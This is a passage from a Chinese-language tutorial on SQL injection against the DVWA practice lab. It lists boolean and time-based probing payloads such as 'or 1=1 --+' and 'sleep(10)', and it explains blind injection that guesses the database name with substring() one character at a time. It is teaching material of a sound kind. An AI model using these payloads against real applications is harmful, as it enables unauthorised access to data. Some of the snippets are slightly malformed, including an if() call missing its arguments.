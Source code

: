(2)1=1 与 1=2 验证(1=1为TURE 而 1=2 为FALSE)  
  
select * from users where id = 1 and 1=1  正常查询 与了一个TURE  
  
select * from users where id =1 and 1=2  查询为空（并不会报错） 与了一个FALSE  
  
判断是否存在注入打点:  
  
id = 1 and 1=1 --+  
  
id = 1 and 1=2 --+  
  
id = 1 or 1=1 --+  
  
id = '1' or '1'='1'--+  
  
id = "1" or "1"="1"--+  
  
或 id = 1 and sleep(10) --+  
### （七）SQL 注入（Blind） 盲注  
  
sql注入盲注就表明，网页不会有回显信息，需要我们利用另外的手段去获取信息  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDtHgqticBKwH7vsCnzvFs8I2bHlH2a5jYWCCqf4wPqmZukncuvpQVDX5w/640?wx_fmt=png&from=appmsg "")  
  
image  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDtmeia7oibCtMkBgYUlt6AQlcf0HbwLQJ7GPrmiajp9EUyWCU2JM4ibGAfUA/640?wx_fmt=png&from=appmsg "")  
  
image  
  
只有是或非两种状态,不会返回具体数据，所以就不能使用UNION查询  
```
1 select substring(database(),1,3)=’dvw’

```  
  
substring 取 database() 字段结果 1,3 从1开始长度为3的值，我们知道，语句真值为1时返回存在，为0时返回不存在，所以我们使用字符串的切片与字符串'dvw'做等号，如果数据库名称前三个确实是dvw那将会返回存在命令，反之  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDtL7qGO4tY5MPJ7akerdl6taUnWsIJKfZOJePUYdtibWCYN8ibauxTWtPA/640?wx_fmt=png&from=appmsg "")  
  
image  
  
流程：  
  
先判断字符长度，使用if语句  
```
1 and if(length(database())=4)#

```  
  
然后再从第一个字符a-z 1-9 一个一个开始判断  
```
1 select substring(database(),1,1)=’a’

```  
```
1 select substring(database(),1,4)=’dvwa’

```  
  